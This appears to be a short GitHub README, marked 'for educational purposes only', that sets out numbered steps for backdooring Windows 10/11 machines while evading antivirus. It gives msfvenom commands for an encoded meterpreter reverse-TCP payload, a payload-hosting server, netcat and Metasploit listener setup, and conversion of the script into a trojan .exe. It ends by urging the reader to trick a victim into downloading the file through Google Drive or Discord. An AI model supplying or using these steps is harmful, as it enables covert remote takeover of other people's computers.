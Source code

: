 # Windows 11/10 Evade AV & Backdoor

#### **For educational purposes only!**

## Steps to Compromise:

3. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -i 2 -e cmd/powershell_base64 -f ps1
4. **Setup server in files directory:** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok, or python if local
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
6. **Base64 encode the trojan.ps1 script.** <br>
trojan.ps1 <br>
7. **Convert our encoded trojan.ps1 into .exe using PS2EXE.** <br>
encoded_trojan.ps1
1. **Setup Trojan Horse.** 
8. **Get creative. Have victim download "exe" file to their machine (i.e through ngrok server, google drive, discord, or other means.)**

# Demonstration Video
Insert video in markdown!
